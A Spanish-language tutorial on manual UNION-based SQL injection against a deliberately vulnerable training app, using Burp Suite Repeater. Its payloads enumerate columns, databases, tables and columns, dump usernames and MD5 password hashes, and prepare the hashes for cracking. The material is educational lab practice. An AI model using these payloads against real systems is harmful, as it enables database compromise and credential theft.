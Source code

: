 
---------
Las explotaciones manuales son aquellas realizadas a través de las capacidades manuales del atacante y que no derivan del uso de un script. Para practicar, existe el siguiente repositorio de GitHub que contiene ejercicios de inyección SQL:

[https://github.com/appsecco/sqlinjection-training-app](https://github.com/appsecco/sqlinjection-training-app)

Para acceder, el usuario y la contraseña son `admin` y `admin`. Puedes comprobar la vulnerabilidad ingresando una comilla (`'`) en la búsqueda de productos, lo cual puede romper la consulta y permitir la concatenación de otros comandos de inyección SQL.

En la explotación manual, se utiliza Burp Suite en la pestaña de Repeater. Primero, envía la petición a esta pestaña y luego selecciona "Send" y "Render". Además, en el Repeater, aparte del botón "Send", puedes utilizar `CTRL+SPACE` para enviar la petición más fácilmente. 

Para enumerar cuántas columnas están operativas, ejecuta la siguiente cadena, variando el número de columnas hasta que no te aparezca un error. Esto te permitirá identificar las columnas operativas. Algunos ejemplos de explotaciones manuales usando [[SQLI]] son: 

```bash
searchitem=test' order by 5-- -
```

Luego, editando el comando a:

```bash
searchitem=test' union select 1,2,3,4,5-- -
```

Podemos ver que la inyección de código ahora nos muestra esos números. Posteriormente, para saber en qué base de datos estamos, lo hacemos con:

```bash
searchitem=test' union select 1,2,database(),4,5-- -
```

Posteriormente, si queremos saber el usuario al que le pertenece esa base de datos, lo hacemos con:

```bash
searchitem=test' union select 1,2,user(),4,5-- -
```

Ahora, si queremos ver todas las bases de datos disponibles, lo hacemos con:

```bash
searchitem=test' union select 1,2,schema_name,4,5 from information_schema.schemata-- -
```

Para ver las tablas que están disponibles en esa base de datos, hacemos lo siguiente:

```bash 
searchitem=test' union select 1,2,table_name,4,5 from information_schema.tables where table_schema='sqlitraining'-- -
```

Ahora, si queremos ver las columnas asociadas a esa tabla, lo que hacemos es lo siguiente:

```bash 
searchitem=test' union select 1,2,column_name,4,5 from information_schema.columns where table_schema='sqlitraining' and table_name='users'-- -
```

Posteriormente, si queremos ver los campos de usuario y contraseña, haremos lo siguiente:

```bash 
searchitem=test' union select 1,username,password,4,5 from users-- -
```

Si queremos concatenar para que sea más fácil copiar un solo hash en MD5, haremos lo siguiente:

```bash
searchitem=test' union select 1,2,group_concat(username,0x3a,password),4,5 from users-- -
```

En donde la parte de `0x3a` es la ejemplificación de los dos puntos (`:`) en hexadecimal, que es interpretado por la base de datos. Así, en el modo pretty de Burp Suite, podemos copiar la concatenación en un solo hash disponible.

Una vez copiadas las contraseñas en un archivo creado en `nvim`, en la terminal de comandos podemos aplicar una sustitución como:

```Nvim
%s/,/\r/g
```

Donde la sustitución se aplica a la coma (`,`) por un retorno de carro (`\r`), y se le aplica a todo el archivo con la opción `/g`.

Ahora, con el siguiente comando, tomamos solo la parte de los hashes para después romperlos usando herramientas como hashes.com. Para extraer solo las contraseñas, ejecutamos el siguiente comando:

```bash 
cat contraseñas | awk '{print $2}' FS=":"
```


